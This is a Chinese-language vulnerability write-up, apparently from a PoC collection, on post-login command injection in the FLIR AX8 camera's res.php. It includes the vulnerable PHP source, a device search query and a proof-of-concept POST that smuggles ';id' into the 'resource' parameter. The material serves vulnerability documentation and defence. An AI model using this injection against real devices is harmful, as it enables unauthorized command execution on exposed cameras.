

# FLIR-AX8 res.php 后台命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：FLIR AX8热成像摄像机
- 本文讨论：res.php shell_exec参数命令注入
- 版本、权限与配置前提：后台/默认口令登录，固件版本未给；resource节点可控
- 资料类型：代码审计/PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 正文写默认口令登录但不列口令/权限条件，POST片段缺会话与HTTP完整头
- 节点resource到shell_exec链条有完整源码支持；无固件范围或修复版本

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 鉴权层不在源码片段，不能据其未见鉴权改成未授权
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

FLIR-AX8 res.php 文件存在后台命令执行漏洞，攻击者通过默认口令登录后台后获取服务器权限

## 漏洞影响

```
FLIR-AX8
```

## 网络测绘

```
app="FLIR-FLIR-AX8"
```

## 漏洞复现

登录页面


出现漏洞的文件为 **res.php**

```
<?php
	if (isset($_POST["action"])) {
		switch ($_POST["action"]) {
			case "get":
				if(isset($_POST["resource"]))
				{
					switch ($_POST["resource"]) {
						case ".rtp.hflip":
							if (!file_exists("/FLIR/system/journal.d/horizontal_flip.cfg")) {
								$result = "false";
								break;
							}
							$result = file_get_contents("/FLIR/system/journal.d/horizontal_flip.cfg") === "1" ? "true" : "false";
							break;
						case ".rtp.vflip":
							if (!file_exists("/FLIR/system/journal.d/vertical_flip.cfg")) {
								$result = "false";
								break;
							}
							$result = file_get_contents("/FLIR/system/journal.d/vertical_flip.cfg") === "1" ? "true" : "false";
							break;
						default:
							$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -o ".$_POST["resource"]));
					}
				}
				break;
			case "set":
				if(isset($_POST["resource"]) and isset($_POST["value"])) {
					switch ($_POST["resource"]) {
						case "rtp.hflip":
							file_put_contents("/FLIR/system/journal.d/horizontal_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
							break;
						case "rtp.vflip":
							file_put_contents("/FLIR/system/journal.d/vertical_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
							break;
						default:
							$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rset ".$_POST["resource"]." ".$_POST["value"]));;
					}
				}

				break;
			case "measurement":
				if (isset($_POST["type"]) && isset($_POST["id"])) {
					$nodeData =  trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.measureFuncs.".$_POST["type"].".".$_POST["id"]));
					$lines = explode("\n", $nodeData);
					foreach($lines as $line)
					{
						$resource = preg_split('/\s+/', $line);
						$value = trim($resource[1], "\"");
						$result[$resource[0]] = $value;
					}
				}
				break;
			case "global-parameters":
				$nodeData =  trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.basicImgData.objectParams"));
				$lines = explode("\n", $nodeData);
				foreach($lines as $line)
				{
					$resource = preg_split('/\s+/', $line);
					$result[$resource[0]] = $resource[1];
				}
			case "alarm":
				if(isset($_POST["id"]))
				{
					$nodeData = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls .image.sysimg.alarms.measfunc.".$_POST["id"]));
					$lines = explode("\n", $nodeData);
					foreach($lines as $line)
					{
						$resource = preg_split('/\s+/', $line);
						$value = trim($resource[1], "\"");
						$result[$resource[0]] = $value;
					}
				}
				break;
			case "calibrate":
				$result = shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/nuc");

				break;
			case "node":
				$nodes = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls ".$_POST["resource"]));
				$result = preg_split("/\s+\n/", $nodes);
				break;
		}
		echo json_encode($result);
	}
?>
```

验证POC

```
POST /res.php

action=node&resource=;id
```




---

> 来源：Threekiii/Awesome-POC
